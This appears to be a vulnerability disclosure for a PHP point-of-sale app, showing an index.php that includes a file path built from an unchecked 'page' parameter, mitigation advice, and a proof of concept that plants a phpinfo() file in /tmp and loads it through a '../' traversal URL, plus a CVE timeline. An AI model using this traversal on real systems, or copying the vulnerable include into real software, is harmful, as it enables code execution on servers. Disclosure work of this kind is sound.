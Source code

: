 Vulnerable code:
**index.php**
```php
  include 'admin/template/sidebar.php';
          if(!empty($_GET['page'])){
                  include 'admin/module/'.$_GET['page'].'/index.php';
          }else{
                  include 'admin/template/home.php';
          }
  include 'admin/template/footer.php';
--------------------
```
To prevent path traversal vulnerabilities when using PHP's include function, validate and sanitize user input, use absolute paths instead of relative ones, maintain a whitelist of allowed file names or paths, restrict access to included files, avoid dynamic file names whenever possible, disable directory listings, and keep your PHP version and libraries up to date. These practices help ensure that only intended files are included and limit the potential for unauthorized access to sensitive directories.

PoC:
```bash
mkdir /tmp/asuka
echo "<?php phpinfo();" | tee /tmp/asuka/index.php
```
![Directory with Index](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEjHDWJ-fpH6PaPYzvlIF2UAKKifv1aRtbsHeLKuTWMTMIdLOSE-06GK4CdAJGsd5e9XS9_VuBJMwMYeNFS17pFOlin92ASyhcgUj-q4gYFsw6ohROHmoCFVmY_0tEuFHkObPhkUITS8TlnEEwOejcJUHYobOcVPOh-pE-Oqg_-ol11pTQPerxyBApdae76i/s750)

```
http://localhost/research/pos-kasir-php/index.php?page=../../../../../../../../tmp/asuka
```
![Path Traversal](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEg5BUb05MrzQVrFTlG2iOdnpIElzjcU49PkL4Ate7y2Cj_H6H0RB6G4cYSbFWpL2I53KOZvV5o_OF2HYFiJAN2gJ4Uwvhfl_v0Zb8WqU0ru9pljZEmRkOfR2PumJvML9PtOMYvfgPCPgknFTlmbeWtC7ybDdQZDyfbZYiBB_VDmmyCFGXb1p0zcD4Ooih2q/s750)

## Timeline
- 25 May 2023 - Found the vulnerability
- 25 May 2023 - Contact the developer
- 23 June 2023 - CVE assigned
- 24 June 2023 - Article published

## References
- https://www.tenable.com/cve/CVE-2023-36348
- https://www.tenable.com/cve/CVE-2023-36347
- https://www.tenable.com/cve/CVE-2023-36346
- https://www.tenable.com/cve/CVE-2023-36345